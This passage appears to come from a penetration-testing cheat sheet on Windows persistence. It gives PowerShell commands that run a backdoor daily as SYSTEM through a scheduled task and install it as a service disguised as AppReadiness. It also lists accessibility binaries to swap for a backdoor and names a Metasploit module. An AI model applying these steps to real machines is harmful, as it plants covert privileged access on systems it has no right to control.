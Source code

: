 Scheduled Task to run your backdoor as NT AUTHORITY\SYSTEM, everyday at 9am.

add cmd.exe

```text
PS C:\> $action = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c <C:\Path\To\backdoor.exe>"
PS C:\> $trigger = New-ScheduledTaskTrigger -Daily -At 9am
PS C:\> $principal = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
PS C:\> $settings = New-ScheduledTaskSettingsSet
PS C:\> $task = New-ScheduledTask -Action $action -Trigger $trigger -Principal $principal -Settings $Settings
PS C:\> Register-ScheduledTask <taskname> -InputObject $task
```

### Windows Services

{% tabs %}
{% tab title="PowerShell" %}
Create a service that can start automatically or on-demand as needed.

```text
PS C:\> New-Service -Name "AppReadiness" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Gets apps ready for use the first time a user signs in to this PC and when adding new apps."
```
{% endtab %}

{% tab title="cmd.exe" %}

{% endtab %}
{% endtabs %}

### Replacing Windows Binaries

Replace these binaries with your backdoor to enable easy persistence with minimal interference with normal user's notice.  Beware using these on systems where the user needs these accessibility tools!

{% tabs %}
{% tab title="Windows XP+" %}
| Feature | Executable |
| :--- | :--- |
| Sticky Keys | C:\Windows\System32\sethc.exe |
| Accessibility Menu | C:\Windows\System32\utilman.exe |
| On-Screen Keyboard | C:\Windows\System32\osk.exe |
| Magnifier | C:\Windows\System32\Magnify.exe |
| Narrator | C:\Windows\System32\Narrator.exe |
| Display Switcher | C:\Windows\System32\DisplaySwitch.exe |
| App Switcher | C:\Windows\System32\AtBroker.exe |

In Metasploit : `use post/windows/manage/sticky_keys`
{% endtab %}
